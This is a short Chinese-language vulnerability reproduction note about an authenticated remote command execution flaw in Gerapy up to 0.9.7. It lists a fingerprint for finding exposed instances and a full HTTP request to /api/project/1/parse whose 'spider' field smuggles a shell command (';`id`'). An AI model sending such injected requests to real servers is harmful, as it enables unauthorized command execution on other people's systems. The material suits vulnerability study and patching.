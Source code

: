 # Gerapy parse 后台远程命令执行漏洞

## 漏洞描述

Gerapy gerapy/server/core/views.py 中的方法存在任意命令执行，攻击者登录后台后发送特定的请求包即可利用漏洞

## 漏洞影响

```
Gerapy <= 0.9.7
```

## 网络测绘

```
title="Gerapy"
```

## 漏洞复现

登录页面

![image-20220524145144051](images/202205241451094.png)

出现漏洞的文件为 `gerapy/server/core/views.py`

![](images/202205241451220.png)

构造请求包测试命令执行

```
POST /api/project/1/parse HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/plain, */*
Authorization: Token 0fb31a60728efd8e6398349bea36fa7629bd8df0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.55 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 18

{"spider":";`id`"}
```

![](images/202205241452592.png)